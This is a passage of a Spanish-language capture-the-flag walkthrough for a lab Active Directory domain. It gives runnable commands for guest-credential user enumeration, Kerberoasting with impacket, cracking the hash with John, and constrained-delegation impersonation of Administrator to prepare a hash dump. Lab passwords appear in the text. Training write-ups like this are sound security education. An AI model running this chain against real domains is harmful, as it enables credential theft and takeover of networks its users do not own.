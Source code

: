 ahora si, haremos un enum4linux -u 'Visitor' -p 'GuestLogin!' -U 10.10.140.48 y veremos que nos dio una lista bastante extensa de usuarios, si van haciendo el procedimiento conmigo entonces les sera facil reconocer el usuario, con eso completado 

pista: tiene el mismo nombre que la room

basicamente solo busque algun nombre que coincidiera con la ctf, entre ellos estaba ese usuario...

Busqueda de Vulnerabilidades:

usaremos la herramienta de impacket, para los que no sepan que es les dejare una
explicacion:

#### ¿Que es Impacket?

`Impacket es una colección de clases de Python para trabajar con protocolos de red. Impacket se enfoca en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí. Los paquetes pueden construirse desde cero, así como analizarse a partir de datos sin procesar, y la API orientada a objetos simplifica el trabajo con jerarquías profundas de protocolos. La biblioteca proporciona un conjunto de herramientas como ejemplos de lo que se puede hacer dentro del contexto de esta biblioteca`

con esto aprendido podemos comenzar:

haremos un impacket-GetUserSPNs 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.140.48 -request -outputfile TGS.txt

para ver si podemos encontrar una cuenta de servicio para abusar.

si hacen un cat TGS.txt veran que nos dejo un HASH, intentemos romperlo con John The Ripper,
 
haremos un  john TGS.txt --wordlist=/usr/share/wordlists/rockyou.txt --fork=4

Nota: es probable que el diccionario este comprimido asi que te tendras que ir ala ruta /usr/share/wordlists/ y haras un gzip -d rockyou.txt y con eso ya funcionaria bien si es que en caso no lo hayas descomprimido antes.

y ahi estara las contraseña: resetpassword

ahora haremos un:

impacket-findDelegation -debug  COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.206.226

para el uso de la delegación de búsqueda de impacket para extraer más información sobre la delegación.
 
 ahora haremos un 
 impacket-getST -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.206.226

El resultado de este script será un ticket de servicio para el usuario administrador.
Una vez que tengamos el archivo ccache, configúrelo en la variable KRB5CCNAME para que se cargue dentro de la memoria y luego podamos usarlo a nuestro favor.

ahora haremos un export KRB5CCNAME=Administrator.ccache para el uso de la secuencia de comandos secretsdump de impacket para volcar hashes de usuario.

para ahorrarnos futuros errores y tiempo añadiremos esto a nuestra /etc/hosts con la ip de su maquina ( DC.COOCTUS.CORP ) eso añadiran claramente ira sin los parentesis, aqui un ejemplo de como tuvo que quedar

